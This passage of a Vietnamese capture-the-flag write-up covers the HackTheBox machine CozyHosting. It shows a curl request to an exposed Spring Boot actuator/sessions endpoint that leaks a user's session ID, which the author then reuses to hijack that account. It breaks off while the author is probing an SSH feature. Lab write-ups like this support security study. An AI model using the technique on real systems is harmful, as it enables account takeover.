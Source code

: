 Output của ffuf trả về có vài files khá nguy hiểm, trong đó có file “actuator/sessions” có thể log lại các session ID hiện tại. Đây là lỗi cấu hình của spring boot ([CVE-2023-20866](https://spring.io/security/cve-2023-20866/))

```bash
┌──(kali㉿kali)-[~]
└─$ curl 'http://cozyhosting.htb/actuator/sessions' -i -X GET
HTTP/1.1 200
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 25 Jan 2024 04:43:55 GMT
Content-Type: application/vnd.spring-boot.actuator.v3+json
Transfer-Encoding: chunked
Connection: keep-alive
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY

{"1903A4A5CDE14E9C9AE0EBF648EDE3B1":"kanderson"}
```

Có được session của thằng kanderson đem thay session hiện tại của mình. Và:

![CozyHosting](/assets/img/posts/CozyHosting/Untitled%203.png)

Ngay dưới có chức năng ssh connection, thử chạy ssh server và connect tới máy mình thì nó báo connection timeout. Nhưng:
